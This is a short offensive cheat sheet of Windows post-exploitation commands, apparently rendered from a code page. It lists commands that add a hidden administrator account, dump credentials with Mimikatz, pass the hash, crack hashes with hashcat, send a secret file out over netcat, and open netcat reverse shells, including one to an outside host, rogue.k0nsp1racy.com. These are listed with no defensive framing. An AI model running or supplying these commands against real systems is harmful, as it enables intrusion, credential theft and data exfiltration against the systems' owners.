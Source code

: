 ## Add User Windows:
`net user test 1234 /add`

`net localgroup administrators test /add`

## Mimikatz:
`privilege::debug`

`sekurlsa::logonPasswords full`

## Passing the Hash:
`pth-winexe -U hash //IP cmd`

## Password Cracking using Hashcat:
`hashcat -m 400 -a 0 hash /root/rockyou.txt`

## Netcat commands:
`c:> nc -l -p 31337`

`nc 192.168.0.10 31337`

`c:> nc -v -w 30 -p 31337 -l < secret.txt`

`nc -v -w 2 192.168.0.10 31337 > secret.txt`

## Banner Grabbing:
`nc 192.168.0.10 80`

```
GET / HTTP/1.1

Host: 192.168.0.10

User-Agent: SPOOFED-BROWSER

Referrer: K0NSP1RACY.COM

<enter>

<enter>
````


## Windows Reverse Shell:
`c:>nc -Lp 31337 -vv -e cmd.exe`

`nc 192.168.0.10 31337`

`c:>nc rogue.k0nsp1racy.com 80 -e cmd.exe`

`nc -lp 80`

